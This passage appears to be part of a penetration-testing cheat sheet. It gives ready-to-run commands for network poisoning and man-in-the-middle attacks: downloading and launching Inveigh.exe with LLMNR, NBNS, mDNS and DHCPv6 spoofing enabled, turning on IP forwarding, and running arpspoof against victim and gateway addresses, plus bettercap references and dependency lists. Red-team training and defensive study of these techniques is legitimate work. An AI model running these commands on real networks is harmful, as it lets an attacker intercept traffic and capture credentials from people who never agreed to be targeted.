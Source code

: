 
#### InveighZero

* [github.com/Kevin-Robertson/InveighZero](https://github.com/Kevin-Robertson/InveighZero)
* [github.com/Flangvik/SharpCollection](https://github.com/Flangvik/SharpCollection)

```
$ curl -L https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.0_x64/Inveigh.exe > inveigh.exe
PS > .\inveigh.exe -FileOutput Y -NBNS Y -mDNS Y -Proxy Y -MachineAccounts Y -DHCPv6 Y -LLMNRv6 Y
```




## ARP Spoofing (ARP Cache Poisoning)

Enable IP forwarding:

```
$ sudo sysctl -w net.ipv4.ip_forward=1
(sudo sh -c 'echo 1 > /proc/sys/net/ipv4/ip_forward')
(edit /etc/sysctl.conf "net.ipv4.ip_forward = 1" to make it permanent)
```



### dsniff [arpspoof]

* [github.com/tecknicaltom/dsniff](https://github.com/tecknicaltom/dsniff)

Install:

```
$ sudo apt install dsniff -y
```

Fire up the attack with Wireshark (filter `ip.src == VICTIM_10.0.0.5`) running:

```
$ sudo arpspoof -c both -t VICTIM_10.0.0.5 GATEWAY_10.0.0.1
```



### bettercap

* [github.com/bettercap/bettercap](https://github.com/bettercap/bettercap)
* [www.bettercap.org/modules/](https://www.bettercap.org/modules/)
* [linuxhint.com/install-bettercap-on-ubuntu-18-04-and-use-the-events-stream/](https://linuxhint.com/install-bettercap-on-ubuntu-18-04-and-use-the-events-stream/)
* [hackernoon.com/man-in-the-middle-attack-using-bettercap-framework-hd783wzy](https://hackernoon.com/man-in-the-middle-attack-using-bettercap-framework-hd783wzy)
* [www.cyberpunk.rs/bettercap-usage-examples-overview-custom-setup-caplets](https://www.cyberpunk.rs/bettercap-usage-examples-overview-custom-setup-caplets)

Deb dependencies (Ubuntu 18.04 LTS):

* [libpcap0.8_1.8.1-6ubuntu1_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/libpcap0.8_1.8.1-6ubuntu1_amd64.deb.html)
* [libpcap0.8-dev_1.8.1-6ubuntu1_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/libpcap0.8-dev_1.8.1-6ubuntu1_amd64.deb.html)
* [libpcap-dev_1.8.1-6ubuntu1_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/libpcap-dev_1.8.1-6ubuntu1_amd64.deb.html)
* [pkg-config_0.29.1-0ubuntu2_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/pkg-config_0.29.1-0ubuntu2_amd64.deb.html)
* [libnetfilter-queue1_1.0.2-2_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-universe-amd64/libnetfilter-queue1_1.0.2-2_amd64.deb.html)
* [libnfnetlink-dev_1.0.1-3_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/libnfnetlink-dev_1.0.1-3_amd64.deb.html)
* [libnetfilter-queue-dev_1.0.2-2_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-universe-amd64/libnetfilter-queue-dev_1.0.2-2_amd64.deb.html)
